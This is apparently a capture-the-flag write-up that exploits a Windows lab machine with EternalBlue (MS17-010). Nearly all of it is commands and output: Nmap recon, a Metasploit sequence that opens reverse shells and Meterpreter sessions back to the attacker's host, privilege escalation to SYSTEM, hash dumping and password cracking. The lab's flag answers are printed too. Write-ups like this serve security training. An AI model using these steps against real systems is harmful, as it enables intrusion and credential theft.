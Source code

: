 ### 🔹 Recon

We started by scanning the target machine with Nmap:

```
GOLDEN ONE LINER FOR RECON

nmap -sC -sV -p- -T4 10.201.9.60
```
```
-p- → scans all 65,535 ports (you don’t miss hidden services).
-sC → runs default scripts (SMB, HTTP, RDP checks, etc.).
-sV → grabs service versions.
-T4 → speeds things up without being too noisy.
```
Pro tip⚡:
For stealth (real-life pentesting) we’d use slower scans (like -T2, -T1) and maybe avoid all-port scans right away.

This revealed open ports under 1000:

* 135/tcp (msrpc)
* 139/tcp (netbios-ssn)
* 445/tcp (microsoft-ds)
* 3389/tcp (tcpwrapped)

We checked for vulnerabilities using:

```
nmap --script vuln -p445 10.201.9.60
```

Result: Machine is vulnerable to `ms17-010` (EternalBlue).

---

### 🔹 Gain Access

We used Metasploit to exploit MS17-010:

```
search eternal
use 0
set RHOSTS 10.201.9.60
set payload windows/x64/shell/reverse_tcp
set LHOST <Kali_IP>
set LPORT 4445
run
```

* `/shell/reverse_tcp` gave a raw Windows CMD shell.
* To stabilize, we used Meterpreter payload instead:

```
set payload windows/x64/meterpreter/reverse_tcp
run
```

* This opened a Meterpreter session directly.
* If using a shell first, we can **upgrade manually**:

```
use post/multi/manage/shell_to_meterpreter
set SESSION 1
set LHOST <Kali_IP>
set LPORT 5555
run
```

This successfully upgraded the shell to Meterpreter.

Key options in Metasploit:

* `RHOSTS` → target IP
* `LHOST` → Kali IP for reverse connection
* `LPORT` → listening port
* `SESSION` → session to upgrade (for shell\_to\_meterpreter)

---

### 🔹 Escalate

* Background the shell: `CTRL+Z`
* List sessions: `sessions -l`
* Upgrade raw shell to Meterpreter: `post/multi/manage/shell_to_meterpreter`
* Verify SYSTEM privileges:

```
getsystem
getuid
shell
whoami
```

* List processes: `ps`
* Find a process running as `NT AUTHORITY\SYSTEM` and migrate:

```
migrate <PID>
```

* This gives a stable Meterpreter session as SYSTEM.

---

### 🔹 Cracking

* Dump password hashes in Meterpreter:

```
hashdump
```

Output:

```
Administrator:500:...:31d6cfe0d16ae931b73c59d7e0c089c0
Guest:501:...:31d6cfe0d16ae931b73c59d7e0c089c0
Jon:1000:...:ffb43f0de35be4d9917ac0cc8ad57f8d
```

* Non-default user: `Jon`
* Cracked hash using CrackStation: `ffb43f0de35be4d9917ac0cc8ad57f8d` → password: `alqfna22`

---

### 🔹 Find Flags

1. **Flag 1** – System root:

```
C:\ → flag{access_the_machine}
```

2. **Flag 2** – SAM database:

```
C:\Windows\System32\config\flag2.txt → flag{sam_database_elevated_access}
```

3. **Flag 3** – Administrator Documents:

```
C:\Users\Jon\Documents\flag3.txt → flag{admin_documents_can_be_valuable}
```

* Navigated via `shell` and used `cd` / `dir` / `type <file>` to read flags.

---

### 🔹 Key Learnings

* Recon: Use `nmap -sC -sV -p-` to discover open ports and services.
* Vulnerability scanning: `nmap --script vuln` to detect MS17-010.
* Exploitation: Choice of payload matters (`shell` vs Meterpreter).
* Privilege escalation: Always aim for SYSTEM access.
* Post-exploitation: Meterpreter provides tools to dump hashes, navigate filesystem, and migrate to stable processes.
* Cracking: Hashes can be cracked using online tools or local cracking suites.
* Flag hunting: Understanding Windows directories and sensitive locations is crucial.

